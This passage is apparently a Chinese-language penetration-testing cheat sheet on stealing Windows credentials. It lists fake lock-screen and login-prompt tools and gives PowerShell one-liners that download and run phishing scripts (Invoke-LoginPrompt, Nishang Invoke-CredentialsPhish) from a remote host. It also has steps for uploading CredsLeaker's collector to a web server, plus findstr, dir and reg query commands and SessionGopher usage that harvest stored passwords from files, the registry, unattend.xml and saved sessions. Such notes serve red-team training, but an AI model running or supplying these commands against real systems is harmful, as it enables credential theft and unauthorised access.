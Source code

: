   #### 伪造锁屏
	https://github.com/Pickfordmatt/SharpLocker/releases
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/144.png)

	https://github.com/bitsadmin/fakelogonscreen/releases
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/145.png)

	记录的密码保存在
	%LOCALAPPDATA%\Microsoft\user.db
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/146.png)
  #### 伪造认证框
  ##### CredsLeaker
	https://github.com/Dviros/CredsLeaker
	将cl_reader.php，config.php，config.cl上传到web服务器
	修改CredsLeaker.ps1、run.bat中URL参数
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/147.png)

	输入正确密码后会自动结束，否则除非结束powershell进程才可结束
	获取到正确密码后会在目录下生成creds.txt保存密码信息
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/148.png)
  ##### LoginPrompt
	>powershell.exe -nop -exec bypass -c "IEX(New-Object net.webclient).DownloadString('http://192.168.0.107/ps/Invoke-LoginPrompt.ps1');invoke-LoginPrompt"
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/149.png)

	除非结束进程，否则只能输对密码才能关闭对话框。
	收到正确密码会返回结果
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/150.png)
  ##### Nishang-Invoke-CredentialsPhish
	>powershell.exe -nop -exec bypass -c "IEX(New-Object net.webclient).DownloadString('http://192.168.0.108/ps/nishang/Gather/Invoke-CredentialsPhish.ps1'); Invoke-CredentialsPhish"
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/151.png)
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/152.png)
  #### 搜索文件
  	>cd C:\ & findstr /SI /M "password" *.xml *.ini *.txt
	>findstr /si password *.xml *.ini *.txt *.config
	>findstr /spin "password" *.*
  #### 搜索具有特定文件名的文件
  	>dir /S /B *pass*.txt == *pass*.xml == *pass*.ini == *cred* == *vnc* == *.config*
	>where /R C:\ user.txt
	>where /R C:\ *.ini
  #### 在注册表中搜索密钥和密码
	>REG QUERY HKLM /F "password" /t REG_SZ /S /K
	>REG QUERY HKCU /F "password" /t REG_SZ /S /K

	>reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon" # Windows Autologin
	>reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon" 2>nul | findstr "DefaultUserName DefaultDomainName DefaultPassword" 
	>reg query "HKLM\SYSTEM\Current\ControlSet\Services\SNMP" # SNMP parameters
	>reg query "HKCU\Software\SimonTatham\PuTTY\Sessions" # Putty clear text proxy credentials
	>reg query "HKCU\Software\ORL\WinVNC3\Password" # VNC credentials
	>reg query HKEY_LOCAL_MACHINE\SOFTWARE\RealVNC\WinVNC4 /v password

	>reg query HKLM /f password /t REG_SZ /s
	>reg query HKCU /f password /t REG_SZ /s
  #### unattend.xml 中的密码
  	unattend.xml 文件的位置
	C:\unattend.xml
	C:\Windows\Panther\Unattend.xml
	C:\Windows\Panther\Unattend\Unattend.xml
	C:\Windows\system32\sysprep.inf
	C:\Windows\system32\sysprep\sysprep.xml
	显示内容
	>dir /s *sysprep.inf *sysprep.xml *unattended.xml *unattend.xml *unattend.txt 2>nul
	密码是base64编码的
	>echo "base64encodepassword"  | base64 -d 
	也可以使用msf模块来查找
	post/windows/gather/enum_unattend
  #### 便签密码
  	便签应用程序将其内容存储在位于的 sqlite 数据库中C:\Users\<user>\AppData\Local\Packages\Microsoft.MicrosoftStickyNotes_8wekyb3d8bbwe\LocalState\plum.sqlite
  #### 应用中的密码
  	使用 SessionGopher获取 PuTTY、WinSCP、FileZilla、SuperPuTTY 和 RDP 密码
	https://github.com/Arvanaghi/SessionGopher
	https://raw.githubusercontent.com/Arvanaghi/SessionGopher/master/SessionGopher.ps1
	Import-Module path\to\SessionGopher.ps1;
	Invoke-SessionGopher -AllDomain -o
	Invoke-SessionGopher -AllDomain -u domain.com\adm-arvanaghi -p s3cr3tP@ss
  #### HASH操作模块
  	其他信息详见HASH操作模块